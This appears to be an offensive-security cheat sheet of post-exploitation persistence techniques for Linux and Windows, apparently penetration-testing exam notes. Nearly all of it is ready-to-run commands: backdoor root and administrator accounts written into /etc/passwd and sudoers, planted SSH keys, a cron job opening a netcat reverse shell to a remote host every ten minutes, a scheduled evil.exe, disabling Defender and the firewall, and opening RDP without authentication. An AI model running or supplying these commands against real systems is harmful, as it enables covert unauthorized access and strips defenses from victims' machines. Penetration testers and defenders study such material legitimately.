 # Persistence on Linux

## Create a new user

```
adduser pelle
adduser pelle sudo
```
```
useradd -u0 -g0 -o -s /bin/bash -p `openssl passwd yourpass` rootuser
```

* On older machine
```
useradd pelle
passwd pelle
echo "pelle    ALL=(ALL) ALL" >> /etc/sudoers
```

* Directly edit `/etc/shadow`:
```
echo 'spotless::0:0:root:/root:/bin/bash' >> /etc/passwd
```
You can create your own password: `mkpasswd -m SHA-512 mypassword`

## Give root rights

```
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```

## Crack the password of existing user

Get the `/etc/shadow`

## SSH Key

```
ssh-keygen -t rsa -C "your_email@example.com"
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQqlhJKYtL/r9655iwp5TiUM9Khp2DJtsJVW3t5qU765wR5Ni+ALEZYwqxHPNYS/kZ4Vdv..." > .ssh/authorized_keys
chmod 600 .ssh/authorized_keys
ssh -i nameOfMyKey kim@192.168.1.103
```

## Cron job

* Check if cronjob is active
```
service crond status
pgrep cron
```

* Start cronjob
```
service crond status
/etc/init.d/cron start
```

* Create a job
```
crontab -e
/10 * * * * nc -e /bin/sh 192.168.1.21 5556
/10 * * * * root nc -e /bin/sh 192.168.1.21 5556
```

## Backdoor in webserver

Put backdoor on webserver, either in separate file or in hidden in another file.

## Setuid on text-editor

You can setuid on an editor. So if you can easily enter as a www-data, you can easily escalate to root through the editor.

With `vi` it is extremely easy. You just run `:shell`, and it gives you a shell.

```
# Make root the owner of the file
chown root myBinary

# set the sticky bit/suid
chmod u+s myBinary
chmod g+s myBinary
```

# Persistence on Windows

## Create a new user
```
net user spotless spotless /add & net localgroup Administrators spotless /add
```

Script to add a new user:
```
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */

int main ()
{
  int i;
  i=system ("net user <username> <password> /add && net localgroup administrators <username> /add");
  return 0;
}

# Compile
i686-w64-mingw32-gcc -o useradd.exe useradd.c
```

## Scheduled task
```
# Launch evil.exe every 10 minutes
schtasks /create /sc minute /mo 10 /tn "TaskName" /tr C:\Windows\system32\evil.exe
```

## Disable firewall/defender

```
sc stop WinDefend
netsh advfirewall show allprofiles
netsh advfirewall set allprofiles state off
netsh firewall set opmode disable
```

## Enable RDP for all

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```

```
netsh firewall set service RemoteDesktop enable
```

```
sc config TermService start= auto
net start Termservice
netsh.exe
firewall
add portopening TCP 3389 "Remote Desktop"
```

```
netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (TCP-In)" dir=in action=allow 
program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the 
Remote Desktop service to allow RDP traffic. [TCP 3389] added by LogicDaemon's script" enable=yes 
profile=private,domain localport=3389 protocol=tcp
```

```
netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (UDP-In)" dir=in action=allow 
program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the 
Remote Desktop service to allow RDP traffic. [UDP 3389] added by LogicDaemon's script" enable=yes 
profile=private,domain localport=3389 protocol=udp
```

# References

* https://ired.team/offensive-security-experiments/offensive-security-cheetsheets#post-exploitation-and-maintaining-access
* https://scund00r.com/all/oscp/2018/02/25/passing-oscp.html
* https://sushant747.gitbooks.io/total-oscp-guide/persistence.html
* https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-post-exploitation.html